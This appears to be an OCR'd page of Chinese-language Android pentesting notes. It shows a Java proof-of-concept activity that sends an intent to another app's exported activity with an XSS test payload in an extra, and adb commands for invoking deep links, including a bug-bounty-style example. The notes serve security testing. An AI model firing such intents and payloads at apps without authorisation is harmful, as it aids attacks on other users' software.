 # 创建 Java 概念证明

```
package target.package.poc;// Resolve these via Android Studio
import ...public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent intent = new Intent();
        intent.setClassName("package.to.target", "package.to.target.TargetActivity");
        intent.putExtra("parameter", "data_to_send_ie<svg onload=prompt(1)>");
        startActivity(intent);
    }
}
```

# 测试你的深层链接

您可以使用带有活动管理器(am)工具的 [Android 调试桥](https://developer.android.com/tools/help/adb)来测试您为深度链接指定的意图过滤器 URIs 是否解析到正确的应用活动。您可以针对设备或模拟器运行 adb 命令。

用 adb 测试意图过滤器 URI 的一般语法是:

```
$ adb shell am start
        -W -a android.intent.action.VIEW
        -d <URI> <PACKAGE>
```

`am` -活动管理器

例如，下面的命令尝试查看与指定 URI 关联的目标应用程序活动。

```
$ adb shell am start
        -W -a android.intent.action.VIEW
        -d "example://gizmos" com.example.android
```

*   我们怎么知道应该叫什么？

为此，我们应该查看清单，并寻找活动声明，那些被定义为导出的或具有意图的声明甚至可以在非根设备上调用。

*   在 Android Manifest 中搜索“ **://** ”，这将有助于找到自定义的深度链接。

```
adb shell am start -n bounty.pay/.PartOneActivity -a android.intent.action.VIEW -d “one://part?start=PartTwoActivity”
```

**安卓多查询参数深度链接**

```
adb shell am start -W -a android.intent.action.VIEW -d "myCustomScheme://myHost?key=category_parent_id\&value=93\&title=test" com.myApp.android
```
